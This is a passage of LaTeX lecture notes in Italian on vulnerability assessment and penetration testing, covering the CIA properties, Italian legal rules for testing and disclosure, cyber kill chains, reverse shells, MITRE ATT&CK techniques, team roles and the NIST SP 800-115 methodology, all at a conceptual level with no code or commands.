\documentclass{article}
\usepackage{graphicx} % Required for inserting images
\usepackage{parskip}
\usepackage{array}
\usepackage{verbatim}
\usepackage{minted}
\usepackage{amssymb}

\usepackage{geometry}
\geometry{
 a4paper,
 total = {160mm,260mm},
 left = 21mm,
 top = 18mm,
}

\title{Vulnerability Assessment and Penetration Testing}
\author{Riassunto creato da Stefano Mavilla}
\date{Anno Accademico 2025/2026}

\begin{document}
\maketitle

\section{Cos'è la sicurezza informatica}
\textit{La sicurezza informatica è un processo, non un prodotto.} cit. Bruce Schneier\\
Non esiste alcun prodotto che possa assicurare il 100\% di sicurezza in un sistema.

\subsection{Gioco della sicurezza}
Il \textit{gioco della sicurezza}, prevede un team di attaccanti chiamato \textbf{Red Team} e un team di difensori chiamato \textbf{Blue Team}. In questo "gioco":
\begin{itemize}
    \item Generalmente gli attaccanti cominciano per primi, in quanto è difficile proteggersi da un attacco non ancora ideato.
    \item Gli attaccanti trovano vulnerabilità per violare il sistema protetto dal Blue Team, che a sua volta cerca di implementare contromisure per fermare gli attaccanti.
\end{itemize}

\subsection{Proprietà CIA}
Ogni attacco è basato sulla proprietà CIA, ovvero:
\begin{itemize}
    \item Confidenzialità, ovvero l'accesso ai dati conferito esclusivamente alle entità autorizzate a leggerli. Esempio, un post su un social network visibile esclusivamente agli amici di chi posta. Inoltre distingueremo autenticazione e autorizzazione.
    \begin{itemize}
        \item L'autenticazione è una prova di identificazione.
        \item L'autorizzazione è una prova per stabilire se un utente ha i permessi per fare una cosa o meno.
        \item La prima può esistere senza la seconda (e viceversa). Un esempio è l'utilizzo di un pin per accedere ad un posto.
    \end{itemize}
    
    \item Integrità, ovvero che i dati siano protetti da modifiche improprie, come corruzione di dati e si distingue in casi malevoli e involontari. 
    \begin{itemize}
        \item Un esempio del primo caso è l'accesso di un utente ad un database dove sono contenuti i voti degli studenti con il cambio dei voti ad un voto specifico.
        \item \textbf{Proprietà di non ripudio}: Sia impossibile, per chi ha emesso o ricevuto i dati, di negare il loro contributo, o di negare di averli emessi o ricevuti.\\ Esempio: non permettere di fare una transazione e non perdere soldi.
    \end{itemize}

    \item Disponibilità, ovvero l'accesso ai dati sempre affidabile e tempestivo. Esempi che possono minare alla disponibiltà di un servizio sono:
    \begin{itemize}
        \item Attacco ad un server Denial of Service, bombardando un server con troppe richieste impossibili da gestire;
        \item Disastri naturali o mancanza di energia elettrica.
    \end{itemize}
\end{itemize}

\subsection{Perché si parla sempre di dati?}
All'attaccante (malevolo) interessano i dati per poi rivenderli o per altri motivi spesso illegali. Una macchina vuota \textbf{spesso} non ha motivo di essere attaccata, tranne in attacchi di safety in casi di guerre.
\newpage
\subsection{Differenza tra Debolezza, Vulnerabilità ed Exploit}
Se un attaccante nega una di queste proprietà, l'integrità dei dati non è garantita.\\
Si divide in due casi, \textbf{Debolezza} e \textbf{Vulnerabilità}.

\subsubsection{Debolezza}
Una Debolezza è un problena di sicurezza teorico, \textbf{non legato} a nessun software o hardware. Tutte le debolezze note sono contenute nel databate CWE (Common Weakness Enumeration).
Esempi di debolezze sono:
\begin{itemize}
    \item SQL Injection (CWE 89).
    \item Out-of-Bounds Read (CWE 125).
    \item Numeric Errors (CWE-189).
    \item Unrestricted Upload of File with Dangerous Type (CWE-434).
\end{itemize}

\subsubsection{Vulnerabilità}
\textbf{Una Vulnerabilità è una debolezza} riscontrata in uno specifico software o hardware. Esiste un database delle vulnerabilità (CVE) dove è possibile visualizzare tutte le vulnerabilità ad oggi scoperte.
\begin{itemize}
    \item Una vulnerabilità non pubblica e non patchata è chiamata \textit{0-day}. Inoltre prima di essere pubblicata essa viene corretta.
    \item Esempi di vulnerabilità sono SQL Injection in specifici programmi.
\end{itemize}

Una CVE di solito, prima di essere pubblicata, viene corretta. In certi casi tuttavia alcuni attori trovano una CVE e la pubblicano prima della correzione, oppure nel caso che essa sia stata sfruttata.

\subsubsection{Exploit}
Un \textbf{exploit} è un programma o uno script (o altro) che sfrutta una vulnerabilità, di fatto negando una o più proprietà CIA. Esempi di exploit sono:
\begin{itemize}
    \item HeartBleed / Out of Bounds Read (CVE 2014-0160).
    \item Malicious File Upload (CVE CVE-2019-1010209).
    \item Negative Item Quantity (CVE-2014-4962).
\end{itemize}

\subsection{Hacking Etico}
Esso prevede che chi attacchi un sistema lo faccia come un attaccante, usando le stesse tecniche e strumenti di hacker malevoli, senza però danneggiare o rubare dati di utenti e seguendo le regole imposte da chi gestisce tali sistemi.
Alla fine egli dovrà restituire un report dettagliato sulle vulnerabilità trovate.
\newpage
\section{Differenze tra Vulnerability Assessment e\\ Penetration Testing}
\subsection{Vulnerability Assessment}
Il Vulnerability Assessment consiste di scanionare una rete o un sitema alla ricerca di una o più vulnerabilità. Essi agiscono in maniera \textbf{autenticata} o \textbf{non autenticata}.

Bisogna eseguire il VA va fatto in maniera periodica e continua, in quanto è un processo breve (spesso è uno scanner che in poche ore, nel caso migliore, trova vulnerabilità).\\
Spesso gli scanner possono dare falsi positivi. Altri invece valutano la pericolosità della vulnerabilità.

\subsection{Penetration Testing}
Il Penetration Testing è un'attività manuale, quindi trovare una componente vulnerabile a qualche tipo di attacco, oppure rompere una password, crackare hash, iniettare un payload (un carico) in un sink (campo di input vulnerabile).\\
Il Penetration tester non conosce le vulnerabilità, quindi comincia cercando attivamente sink o altre vulnerabilità, mentre uno scanner cerca specifiche vulnerabilità.\\
Nel report devono essere presenti dichiarazioni dettagliate sulle vulnerabilità trovate.

Un'altra differenza tra VA e PT è il costo, in quanto il secondo è molto più costoso (specialmente a livello di tempo e soldi), quindi è buona prassi fare PT su base annuale con più ethical hacker.

\subsection{Legalità del Penetration Testing}
Violare un sistema, senza un contratto con l'azienda, viola l'\textbf{articolo 615-ter} del Codice Penale, che comporta pene pecuniare e \textbf{fino a tre anni di carcere}.\\
N.B.: Scovare una vulnerabilità senza violare il sistema non comporta una violazione dell'art. 615-ter.

\subsubsection{Contratto tra le parti}
Quindi per non compiere azioni \textbf{illegali} bisogna stipulare un contratto con l'azienda con cui si vuole fare Penetration Testing. Vi sono delle specifiche da considerare quando si stipula un contratto di questo tipo:
\begin{itemize}
    \item Tipologia attività.
    \item Chi ha autorizzazione.
    \item Condizioni per fare i test.
    \item Sistemi su cui fare test (in-scope).
    \item Dichiarazione di aver richiesto il permesso alle terze parti coinvolte indirettamente (ad esempio sistemi su cloud esterni).
    \item Data di inizio e fine e assicurazioni.
    \item Salario.
\end{itemize}

\subsubsection{Bug Bounty Program}
Un contratto alternativo è il \textbf{Bug Bounty Program}.\\
Un'azienda potrebbe permettere Penetration Testsing su un prodotto a patto di comunicare le vulnerabilità riscontrate tramite un report.\\
HackerOne è un sito aggregatore che permette alle aziende di iscriversi per avere un Bug Bounty Program. Altre aziende (spesso grandi come Google o Microsoft) hanno anche loro BBPs con le informazioni sui report e le regole da seguire.

\subsection{General Disclosure}
In Italia non esiste una legge che regolamenta la \textbf{disclosure}: quindi non bisogna pubblicare informazioni su una CVE (o la CVE stessa) finché non sia stata corretta.\\
Inoltre anche quando una vilnerabilità è stata pubblicata, spesso alcuni dettagli vanno omessi per non compromettere la Proprietà Intellettuale.\\
Infine è illegale chiedere denaro minacciando di pubblicare una vulnerabilità, in quanto si configura come estorsione (Articolo 629 del Codice Penale).

\section{Cyber Kill Chain}
Per poter simulare un attacco mediante un'attività di VAPT usiamo diverse classificazioni standardizzate per descrivere le fasi di un attacco \textbf{reale}. Esse sono le \textbf{Cyber Kill Chain} e ne esistono diverse (tuttavia nel corso ne sono state descritte solo due):
\begin{itemize}
    \item \textbf{Intrusion Cyber Kill Chain}, ovvero una KC standard su cui si basano molte altre KC e ad oggi è raramente utilizzata.
    \item \textbf{Unified Kill Chain}, al momento la KC più funzionale e utilizzata.
    \item \textbf{Mitre Att\&ck}, non una KC ma comprende tutte le tecniche offensive note per gli attacchi informatici.
\end{itemize}

\subsection{Intrusion Cyber Kill Chain}
La Intrusion Cyber Kill Chain è costituita da \textbf{7 fasi}, dalla raccolta delle imformazioni all'obiettivo finale, come esfiltrazione, manomissione e cancellazione dei dati.
\begin{enumerate}
    \item \textbf{Ricognizione (Reconnaissance)}: L'attaccante, manualmente o tramite tool automatizzati, ricerca i bersagli da attaccare. I bersagli variano da interi sistemi a singole persone.
    Ne esistono \textbf{due} tipi:
    \begin{itemize}
        \item Ricognizione \textbf{Passiva}, che consiste nel raccogliere informazioni senza interagire con i servizi della vittima.
        \item Ricognizione \textbf{Attiva}, che consiste nel raccogliere informazioni interagendo con i servizi della vittima.
    \end{itemize}
    Esempio: Data un'azienda che vogliamo attaccare, raccogliamo informazioni come il formato della email dei dipendenti.

    \item \textbf{Armamento (Weaponization)}: Consiste nella creazione di uno strumento che serve da vettore per l'accesso da inviare al bersaglio. Esempio: un file Excel che contiene un ransomware attivabile tramite macro specifica.

    \item \textbf{Invio (Delivery)}: Consiste nella trasmissione dello strumento creato nella fase precedente.

    \item \textbf{Sfruttamento (Exploitation)}: Consiste nell'attivazione dell'arma si attiva che infesta il sistema della vittima tramite codice arbitrario, oppure tramite una vulnerabilità dell'applicazione o del sistema operativo.

    \item \textbf{Installazione (Installation)}: Consiste nell'introduzione di una backdoor che permette all'attaccante di mantenere l'accesso al bersaglio. Esempio: la modifica di alcuni registri affinché anche con lo spegnimento o il riavvio del pc la backdoor rimanga.

    \item \textbf{Comanda e Controlla (C\&C)}: Consiste nella creazione di un canale mediante il quale l'attaccante riesce ad eseguire operazioni arbitrarie sul bersaglio. Esempi comuni sono le \textbf{Reverse Shell}, le pagine social e i server C2.
    
    \item \textbf{Azioni degli Obiettivi (Action on Objectives)}: Consiste nelle azioni praticate dall'attaccante sul sistema della vittima. Generalmente consistono in violazioni della CIA di dati e servizi o manomissione di altri sistemi collegati alla stessa rete della vittima.
\end{enumerate}

\subsection{Differenze tra Bind Shell e Reverse Shell}
\subsubsection{Bind Shell}
Una \textbf{Bind shell} consiste nell'esposizione di una Shell su una porta, intenzionalmente o tramite un malware, nel sistema della vittima. Tuttavia:
\begin{itemize}
    \item Le richieste avvengono dall'attaccante alla vittima (quindi \textbf{in entrata}), che vengono bloccate dal \textbf{firewall}.
    \item Anche in assenza del firewall (possibilmente disabilitato dall'attaccante), l'attaccante dovrebbe confrontarsi con \textbf{il NAT}, che generalmente blocca le richieste in entrata.
\end{itemize}

Per questi motivi le \textbf{Bind Shell} sono raramente utilizzate quando si cerca di attaccare un sistema.
\newpage
\subsubsection{Reverse Shell}
Una \textbf{Reverse Shell} consiste nell'esposizione di un listener da parte dell'attaccante, a cui la vittima si collega tramite il malware. Quanto ricevuto dall'attaccante verrà passato alla Shell. Quindi:
\begin{itemize}
    \item Essendo le richieste \textbf{in uscita}, esse non verranno bloccate né il NAT né il firewall.
    \item Seppur l'ammministratore di sistema potrebbe negare le richieste in uscita (in questo caso una Reverse Shell sarebbe quasi impraticabile), è una pratica non comune.
\end{itemize}

\subsection{Unified Kill Chain}
La Intrusion Cyber Kill Chain è formata da buone fasi per attaccare un sistema ma non è realistica, poco applicabile e non ciclica. Inoltre non tiene in considerazione che l'attaccante possa passare da una macchina ad un altra.\\
Negli anni sono state create molteplici Kill Chain, ma la più usata e completa delle altre è la \textbf{Unified Kill Chain}, formata in modo ciclico.

La \textbf{Unified Kill Chain} è costituita da \textbf{18 fasi} divise in \textbf{3 gruppi}:
\begin{enumerate}
    \item Appiglio Iniziale (9 fasi).
    \item Propagazione in Rete (7 fasi).
    \item Attacco agli Obiettivi (5 fasi).
\end{enumerate}

\subsubsection{Appiglio Iniziale (Initial Foothold)}
Il primo gruppo della Unified Kill Chain presenta tutte le possibili azioni che l'attaccante può eseguire per ottenere un accesso iniziale al sistema della vittima. Inoltre è importante sapere che:
\begin{itemize}
    \item Non tutte le azioni devono essere eseguite necessariamente. Dipende da caso a caso e quindi certe azioni che in alcuni casi sono necessarie, in altri non servono affatto.
    \item Le azioni non devono necessariamente eseguite sequenzialmente.
    \item Alcune delle azioni presenti sono le stesse della Intrusion Cyber Kill Chain (Ricognizione, Armamento, Invio, Sfruttamento e C2C).
    \item Il fallimento di una o più di queste azioni può comportare il fallimento della missione.
\end{itemize}

Le 9 fasi di questo gruppo (in ordine) sono:
\begin{enumerate}
    \item \textbf{Ricognizione}.
    \item \textbf{Armamento}.
    \item \textbf{Invio}.
    \item \textbf{Ingegneria Sociale (Social Engineering)}: Consiste nella manipolazione di target umani per indurli a compiere azioni volte ad attivare malware o a comunicare credenziali utili all'attaccante.
    \item \textbf{Sfruttamento}.
    \item \textbf{Persistenza (Persistence)}: Consiste in azioni che permettono all'attaccante di mantenere un accesso persistente al sistema della vittima. Un esempio è l'inserimento di una backdoor.
    \item \textbf{Evasione delle Difese (Defence Evasion)}: Consiste nell'utilizzo di tecniche per evitare di essere individuato da sistemi di VA automatizzati o da altre misure di sicurezza implementate. 
    \item \textbf{Fare perno (Pivoting)}: Consiste nell'utilizzare il sistema compromesso per comunicare con altri sistemi non direttamente accessibili dall'attaccante. Un esempio è l'accesso ad un sistema della stessa rete del sistema violato.
\end{enumerate}

Da qui l'attaccante ha due scelte. Se il sistema violato ha ciò che gli interessa e ha i privilegi necessari per accedervi può passare al gruppo \textbf{Attacco agli Obiettivi}, altrimenti se gli interessa un sistema della stessa rete del sistema violato, oppure non può ottenere maggiori privilegi da quel sistema, allora deve passare al gruppo \textbf{Propagazione in Rete}.

\subsubsection{Propagazione in Rete (Network Propagation)}
Questo secondo gruppo contiene tutte le azioni effettuabili dall'attaccante nella rete interna del sistema violato e accedere ad altri sistemi. Come nel primo gruppo:
\begin{itemize}
    \item Non tutte le azioni sono da eseguire e il loro ordine non è strettamente sequenziale.
    \item Può essere ripetuto più volte, fino ad arrivare al sistema obiettivo.
\end{itemize}

Le \textbf{7 fasi} di questo gruppo (in ordine) sono:
\begin{enumerate}
    \item \textbf{Pivoting}: la fase che ci ha condotto in questo gruppo.
    \item \textbf{Scoperta (Discovery)}: Consiste nell'utilizzo di tecniche volte alla raccolta di informazioni relative ad un sistema e alle reti di cui fa parte.
    \item \textbf{Aumento dei Privilegi (Privilege Escalation)}: Consiste nell'utilizzo di exploit o strumenti per ottenere privilegi superiori. Ad esempio l'attaccante potrebbe aver ottenuto una Shell di servizio o di utente dalle autorizzazioni limitate. In questa fase egli cerca di ottenere una Shell di \textbf{root} che gli garantirebbe accesso a tutto il sistema.
    \item \textbf{Esecuzione (Execution)}: Consiste nell'utilizzo di codice arbitrario su un sistema remoto o locale.
    \item \textbf{Accesso alle Credenziali (Credential Access)}: Consiste nell'acquisire credenziali di sistema, servizio o dominio. Esempi sono l'ottenimento di password di un sistema.
    \item \textbf{Movimento Laterale (Lateral Movement)}: Consiste nell'utilizzo di tecniche che permettono all'attaccante di spostarsi tra sistemi della stessa rete.
    \item \textbf{Accesso (Access)}: Consiste nell'accesso al sistema obiettivo.
\end{enumerate}

Arrivati a questo punto l'attaccante può passare all'ultimo gruppo, l'\textbf{Attacco agli Obiettivi}.

\subsubsection{Attacco agli Obiettivi (Action on Objectives)}
L'attaccante ha trovato l'asset obiettivo del suo attacco e con i privilegi ottenuti può eseguire azioni in base al suo obiettivo, che può essere ottenere dati riservati oppure danneggiare il sistema vittima.

Le \textbf{5 fasi} di questo gruppo (in ordine) sono:
\begin{enumerate}
    \item \textbf{Accesso}: la fase che ci ha condotto in questo gruppo.
    \item \textbf{Collezione (Collection)}: Consiste nell'identificazione e nella raccolta dei dati dal sistema obiettivo (una singola macchina o anche un'intera rete).
    \item \textbf{Esfiltrazione (Exfiltration)}: Consiste nell'invio dei dati verso un sistema controllato dall'attaccante. È una fase pericolosa in quanto si potrebbero
    attivare allert del sistema o i file potrebbero essere protetti.
    \item \textbf{Impatto (Impact)}: Consiste nella manipolazione, interruzione o distruzione dei dati del sistema vittima o del sistema stesso.
    \item \textbf{Obiettivi (Objectives)}: Scopo socio-tecnologico che si vuole raggiungere mediante l'attacco.
\end{enumerate}

Rispetto ai due gruppi precedenti:
\begin{itemize}
    \item Le azioni possono essere eseguite \textbf{più volte} ma \textbf{Collezione} ed \textbf{Esfiltrazione} vanno eseguite in ordine. Esse vanno eseguite se si vuole violare la proprietà di \textbf{Confidenzialità} degli asset.

    \item L'azione di \textbf{Impatto} va invece a violare le proprietà di \textbf{Integrità} e \textbf{Disponibilità}.
\end{itemize}
\newpage
\subsection{Mitre Att\&ck Knowledge base}
Non è una Kill Chain, ma contiene tutte le tecniche offensive note. Qui sono elencate alcune delle tecniche più note per (quasi) ogni fase:
\begin{enumerate}
    \item \textbf{Ricognizione}:
        \begin{itemize}
            \item \textbf{Active Scanning}: Si tratta di sondare l'infrastruttura della vittima tramite il traffico di rete, usando anche funzionalità native di protocolli di rete come ICMP.
            
            \item \textbf{Gather Victim Host Information}: Si tratta di raccogliere informazioni sul sistema della vittima, compresi dati amministrativi (come Nome, Indirizzo IP, funzionalità) e specifiche relative alla configurazione (come il SO utilizzato, il linguaggio). 
        \end{itemize}

    \item \textbf{Armamento/Invio}:
        \begin{itemize}
            \item \textbf{Content Injection}: Si tratta di inviare codice malevolo nei sistemi attraverso il traffico di rete online tramite canali di trasferimento dati compromessi, dove possono manipolare il traffico e/o iniettare i propri contenuti.

            \item \textbf{Exploit Public-Facing Application}: Si tratta di sfruttare vulnerabilità di un sito web o di un database per ottenere un accesso all'interno del sistema vittima.
        \end{itemize}

    \item \textbf{Ingegneria Sociale}:
        \begin{itemize}
            \item \textbf{Phishing for Information}: Si tratta di inviare messaggi per ingannare la vittima per farle divulgare informazioni o credenziali.\\
            Una variante è lo spear-phishing, ovvero fare phishing su un utente o un'azienda specifica.
        \end{itemize}

    \item \textbf{Sfruttamento}:
        \begin{itemize}
            \item \textbf{Command and Scripting Interpreter}: Si tratta di abusare degli interpreti di comandi e script come \textbf{Unix Shell} o \textbf{PowerShell} per eseguire comandi, script o file binari.

            \item \textbf{Inter Process Communication}: Si tratta di sfruttare i meccanismi di IPC per eseguire codice arbitrario o comandi. Seppur il modo per implementare mutua esclusione tra processi può cambiare tra SO, vi sono Interpreti di Script che possono influensare l'IPC.
        \end{itemize}

    \item \textbf{Persistenza}:
        \begin{itemize}
            \item \textbf{Account Manipulation}: Si tratta di qualsiasi azione rivolta a preservare la presenza\\ dell'attaccante nel sistema della vittima, come ad esempio modificare credenziali o permessi di accesso.

            \item \textbf{Boot or Logon Autostart Execution}: Si tratta di configurare le impostazioni del sistema della vittima per far eseguire un programma (malevolo) all'accensione del sistema. È anche una tecnica usata per l'\textbf{aumento dei privilegi}.
        \end{itemize}

    \item \textbf{Aumento dei Privilegi}:
        \begin{itemize}
            \item \textbf{Abuse Elevation Control Mechanism}: Si tratta di aggirare i meccanismi progettati per controllare l'elevazione dei privilegi per ottenere permessi di livello superiore. La maggior parte dei sistemi moderni contiene meccanismi di controllo dell'elevazione nativi che mirano a limitare i privilegi che un utente può eseguire su una macchina. 
        \end{itemize}

    \item \textbf{Evasione delle Difese}:
        \begin{itemize}
            \item \textbf{Debugger Evasion}: Si tratta di impiegare vari mezzi per rilevare ed evitare i debugger. I debugger sono in genere utilizzati dai difensori per tracciare e/o analizzare l'esecuzione di potenziali payload di malware.\\
            L'evasione del debugger può includere la modifica dei comportamenti in base ai risultati dei controlli per la presenza di artefatti indicativi di un ambiente sottoposto a debug.

            \item \textbf{File and Directory Permissions Modification}: Si tratta di modificare i permessi/attributi di file o directory per eludere le liste di controllo degli accessi (gestiti da ACL) e accedere ai file protetti.
        \end{itemize}
    \newpage
    \item \textbf{Accesso alle Credenziali}:
        \begin{itemize}
            \item \textbf{Brute Force}: Si tratta di usare tecniche di forza bruta per ottenere l'accesso agli account quando le password sono sconosciute o quando vengono ottenuti gli hash delle password, spesso utilizzando un meccanismo ripetitivo o iterativo.\\
            Gli attaccanti potrebbero tentare di accedere ad account validi all'interno dell'ambiente della vittima tramite informazioni ottenuti in altre fasi post-compromissione.

            \item \textbf{Forge Web Credentials}: Si tratta di falsificare credenziali che possono essere utilizzate per accedere ad applicazioni web o servizi Internet, anche falsificando i token sfruttando funzionalità come le API \verb|AssumeRole| in AWS.
        \end{itemize}

    \item \textbf{Scoperta}:
        \begin{itemize}
            \item \textbf{Account Discovery}: Si tratta di ottenere un elenco di account, nomi utente o indirizzi email validi su un sistema o all'interno di un ambiente compromesso. Queste informazioni possono aiutare gli aggressori a determinare quali account esistono, il che può favorire comportamenti successivi come attacchi brute-force, spear-phishing o furti di account.

            \item \textbf{Domain Trust Discovery}: Si tratta di raccogliere informazioni sulle relazioni di trust di dominio che potrebbero essere utilizzate per identificare opportunità di movimento laterale in ambienti Windows. I trust di dominio forniscono un meccanismo per consentire a un dominio di accedere alle risorse in base alle procedure di autenticazione di un altro dominio.
        \end{itemize}

    \item \textbf{Movimento Laterale}:
        \begin{itemize}
            \item \textbf{Remote Services}: Si tratta di utilizzare account validi per accedere a un servizio che accetta connessioni remote, come Telnet, SSH e VNC. L'aggressore può quindi eseguire azioni come l'utente connesso.

            \item \textbf{Internal Spearphishing}: Si tratta di utilizzare lo spearphishing interno per ottenere l'accesso a informazioni aggiuntive o compromettere altri utenti all'interno della stessa organizzazione. Spesso tramite \textbf{impersonificazione} gli attaccanti, possono quindi tentare di sfruttare l'account interno attendibile per aumentare la probabilità di ingannare più vittime inducendole a cadere in tentativi di phishing.
            
        \end{itemize}

    \item \textbf{Collezione}:
        \begin{itemize}
            \item \textbf{Email Collection}: Si tratta di prendere di mira le e-mail degli utenti per raccogliere informazioni sensibili, come segreti commerciali o informazioni personali, o anche dettagli sulle operazioni di risposta agli incidenti in corso, che possono consentire agli aggressori di adattare le proprie tecniche al fine di mantenere la persistenza o eludere le difese.
        \end{itemize}

    \item \textbf{Comanda e Controlla}:
        \begin{itemize}
            \item \textbf{Application Layer Protocol}: Si tratta di comunicare utilizzando i protocolli di livello applicativo OSI per evitare il filtraggio di rete, integrandosi nel traffico esistente. I protocolli comunemente utilizzati sono SMB, SSH o RDP.

            \item \textbf{Ingress Tool Transfer}: Si tratta di trasferire strumenti o altri file da un sistema esterno controllato dall'avversario alla rete della vittima tramite il canale di comando e controllo o tramite protocolli alternativi come FTP.
        \end{itemize}

    \item \textbf{Esfiltrazione}:
        \begin{itemize}
            \item \textbf{Exfiltration Over C\&C Channel}: Si tratta di rubare dati esfiltrandoli tramite un canale di comando e controllo esistente. I dati rubati vengono codificati nel normale canale di comunicazione utilizzando lo stesso protocollo delle comunicazioni di comando e controllo.

            \item \textbf{Data Transfer Size Limits}: Si tratta di esfiltrare i dati in blocchi di dimensioni fisse anziché in file interi, oppure limitare le dimensioni dei pacchetti al di sotto di determinate soglie. Questo approccio può essere utilizzato per evitare di attivare avvisi di soglia per il trasferimento dati in rete.
        \end{itemize}

    \item \textbf{Impatto}:
        \begin{itemize}
            \item \textbf{Data Encrypted for Impact}: Si tratta di crittografare i dati sui sistemi di destinazione o su un gran numero di sistemi in una rete per interrompere la disponibilità delle risorse di sistema e di rete. Ciò può essere fatto per estorcere un risarcimento monetario alla vittima in cambio di una chiave di decrittazione.
        \end{itemize}   
\end{enumerate}

\newpage
\section{Red Team, Blue Team e Penetration Tester}
\subsection{Red Team vs Blue Team}
Il Red Team deve emulare tattiche e procedure usate da possibili attaccanti reali, al fine di fornire alla "vittima":
\begin{itemize}
    \item Una lista di problemi all'interno delle policy e procedure di sicurezza aziendali.
    \item Raccomandazioni utili per incrementare il livello di sicurezza complessivo dell’azienda del cliente.
\end{itemize}

Il Red Team deve intrufolarsi all'interno dei sistemi aziendali senza essere scoperto dal Blue Team. È quindi valutato tramite due parametri:
\begin{itemize}
    \item \textbf{Time To Detect (TTD)}: indica quanto tempo ha impiegato il Blue Team ad accorgersi di un determinato incidente di sicurezza.
    \item \textbf{Time To Mitigate (TTM)}: indica quanto tempo ha impiegato il Blue Team per 
    implementare una soluzione all’incidente di sicurezza.
\end{itemize}

L’obiettivo del Blue Team è quello di monitorare costantemente lo stato dei sistemi di protezione di un’istituzione. Può includere funzioni da altri team quali:
\begin{itemize}
    \item Incident Response;
    \item Security Operation Center (SOC);
    \item Security Orchestration Automation and Response (SOAR);
    \item Managed Detection and Response (MDR).
\end{itemize}

\subsection{Differenze tra Red Teaming e Penetration Tester}
\begin{table}[h]
    \centering
    \begin{tabular}{|m{7 cm}|  m{7 cm}|}
        \hline
        \textbf{Penetration Testing} & \textbf{Red Teaming}\\
        \hline
        \textbf{Molto metodico}: ogni attività, azione e sistema in-scope viene ben definito prima dell’inizio delle attività. & \textbf{Poco metodico}: vale qualsiasi azione, purché sia legale.\\
        \hline
        Esistono linee guida standardizzate per l’esecuzione dell’attività. & Non esistono linee guida standardizzate per l’esecuzione dell’attività.\\
        \hline
        L’attività ha una breve durata, generalmente una settimana. & L’attività può durare anche diversi mesi.\\
        \hline
        I sysadmin che si occupano di gestire i sistemi target vengono solitamente informati dell’esecuzione dell’attività. & Il personale, ad eccezione del CISO, non viene informato.\\
        \hline
        L’obiettivo è identificare la sfruttabilità di vulnerabilità che affliggono i sistemi. & L’obiettivo è testare le policy e procedure interne, nonché la capacità del Blue Team di individuare intrusioni e violazioni.\\
        \hline
    \end{tabular}
\end{table}

\subsubsection{Purple Team}
Oltre ai principali due team ne abbiamo un terzo, il \textbf{purple team}, che in alcune occorrenze fa da mediatore tra i due team ed è capace di fare entrambe le attività di attaccante che di difensore.

\newpage

\section{Metodologie per VAPT}
Per affrontare un'attività di VAPT è importante seguire una metodologia ben precisa, specialmente per difendersi da accuse di membri dell'azienda cliente. Le più usate sono:
\begin{itemize}
    \item NIST SP 800-115
    \item PTES
    \item OWASP
\end{itemize}

\subsection{NIST SP 800-115}
Sviluppata dal National Institute of Standards and Technology, questa metodologia fornisce delle linee guida principalmente per i test di sicurezza effettuati da agenzie federali, anche se trova utilizzi anche per agenzie non governative.\\
Questa metodologia, per condurre un test di sicurezza, comprende tre fasi:
\begin{enumerate}
    \item \textbf{Pianificazione (Planning)}: Questa prima fase consiste nella raccolta delle informazioni necessarie per l'esecuzione dell'assessment, quindi identifichiamo gli asset da controllare, le minacce d'interesse ed etc.
    \item \textbf{Esecuzione (Execution)}: Questa seconda fase consiste nell'identificare e validare vulnerabilità, sia nei sistemi che nelle reti aziendali, o anche nei loro processi organizzativi. Un esempio è verificare la robustezza delle password del cliente.
    \item \textbf{Post-Esecuzione (Post-Execution)}: Questa terza e ultima fase consiste nell'analisi delle vulnerabilità scovate, al fine di determinarne le cause e suggerire al cliente possibili soluzioni alle stesse. Infine vi è la stesura del report.
\end{enumerate}

Lo standard inoltre prevede anche tecniche da usare per effettuare \textbf{assessment tecnici}, suddivise in tre categorie:
\begin{itemize}
    \item \textbf{Tecniche di Revisione}.
    \item \textbf{Tecniche di Identificazione dei Bersagli e Analisi}.
    \item \textbf{Tecniche di Validazione della Vulnerabilità del Bersaglio}.
\end{itemize}

\subsubsection{Tecniche di Revisione (Review Techniques)}
Si tratta di tecniche manuali per la ricerca \textbf{passiva} di vulnerabilità all’interno di sistemi, applicazioni, policy e procedure, con rischi minimi per gli asset analizzati:

\begin{enumerate}
    \item \textbf{Revisione della Documentazione (Documentation Review)}: Consiste nella verifica della coerenza e l'aggiornamento delle policy e delle procedure aziendali.
        Esempio: procedure del cambio delle password.

    \item \textbf{Revisione dei Log (Log Review)}: Consiste nel verificare che i sistemi che effettuano logging riescano effettivamente a loggare tutte le informazioni necessarie.

    \item \textbf{Revisione delle Regole (Ruleset Review)}: Consiste nella revisione delle regole dei firewall, degli IDS/IPS, e di accesso ai sistemi, per verificare se tali regole sono ancora richieste, se sono impostate nell’ordine giusto, che siano impostate i privilegi minimi ed etc.

    \item \textbf{Revisione della Configurazione di Sistema (System Configuration Review)}: Consiste nella verifica delle configurazioni delle macchine, delle applicazioni e dei sistemi operativi tramite checklist o linee guida.

    \item \textbf{Network Sniffing}: Lo sniffing è una tecnica passiva per il monitoraggio delle reti di comunicazione e viene impiegato dalla verifica del funzionamento delle regole dei firewall e degli IDS/IPS, per validare i protocolli crittografici utilizzati, o semplicemente per controllare il traffico in entrata e in uscita di una rete.

    \item \textbf{Verifica dell’Integrità dei File ( File Integrity Checking)}: Si tratta di soluzioni apposite che possono creare un database degli hash o checksum di tutti i file protetti, e verificare periodicamente che non siano variati nel tempo (o che non siano corrotti).
            
\end{enumerate}
\newpage
\subsubsection{Tecniche di Identificazione dei Bersagli e Analisi \\(Target Identification and Analysis Techniques)}
Si tratta di tecniche, manuali o automatizzate, per l’identificazione di sistemi, porte e servizi su cui ricercare vulnerabilità:
\begin{enumerate}
    \item \textbf{Esplorazione della Rete (Network Discovery)}: Consiste nella scoperta, 
    manuale o automatizzata, degli host attivi, dispositivi sconosciuti o ostili all’interno 
    di una rete. Si può sniffare il traffico in maniera passiva, per individuare servizi 
    dietro porte aperte, relazioni tra gli host, indirizzi IP, e così via. In maniera attiva, 
    si può provare ad inviare ICMP ping, oppure pacchetti di vario tipo (normali, 
    malformati), per verificare come si comporta l’host.
    
    \item \textbf{Identificazione delle Porte di Rete e dei Servizi (Network Port and Service Identification)}: Consiste nell'identificare le porte aperte ed i servizi esposti dietro queste, verificando che per ciascuno di essi non esistano vulnerabilità note. La lista di questi servizi verrà poi utilizzata per determinare i target del penetration testing. Alcuni scanner sono in grado di analizzare le fingerprint delle risposte ottenute per calcolare automaticamente il nome del servizio e il suo numero di versione. Lo scanning dovrebbe essere effettuato sia dall’interno che dall’esterno della rete, per valutare correttamente il perimetro di sicurezza.

